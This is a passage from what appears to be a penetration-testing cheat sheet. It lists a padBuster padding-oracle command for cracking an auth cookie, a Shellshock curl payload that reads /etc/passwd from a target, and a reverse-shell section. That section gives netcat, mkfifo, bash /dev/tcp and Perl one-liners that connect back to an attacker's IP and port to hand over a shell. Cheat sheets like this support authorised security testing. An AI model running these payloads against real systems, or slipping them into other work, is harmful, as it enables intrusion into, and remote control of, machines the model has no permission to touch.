 * Padding oracle attack for auth cookie; note that `auth=` in the below example should be change to matched the cookie you are cracking
```sh
padBuster <url> <cookiesample> <blocksize8or16> -cookies auth=<cookiesample>
```

* [Shell shock](https://github.com/opsxcq/exploit-CVE-2014-6271)
```sh
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" <url>
```

* Gathering information from [Meteor.js](https://pen-testing.sans.org/blog/2016/12/06/mining-meteor)


## Reverse shells

* [URL encoder/decoder](https://meyerweb.com/eric/tools/dencoder/)

* Kali webshells
``` sh
ls /usr/share/webshells/
```

* Netcat listener
``` sh
nc -lvp <port>
```

* Netcat (Linux); below variations will work based on version / compilation flags
``` sh
nc <ip> <port> -e /bin/bash
nc -c /bin/sh <ip> <port>
/bin/sh | nc <ip> <port>
rm -f /tmp/p; mknod /tmp/p p && nc <ip> <port> 0/tmp/p
```

* Netcat (Windows)
``` sh
nc <ip> <port> -e cmd.exe
```

* Netcat without `-e` option
``` sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> >/tmp/f
```

* Bash
``` sh
bash -i >& /dev/tcp/<ip>/<port> 0>&1
exec /bin/bash 0&0 2>&0
```

* Perl via `/bin/sh`
``` sh
perl -e 'use Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
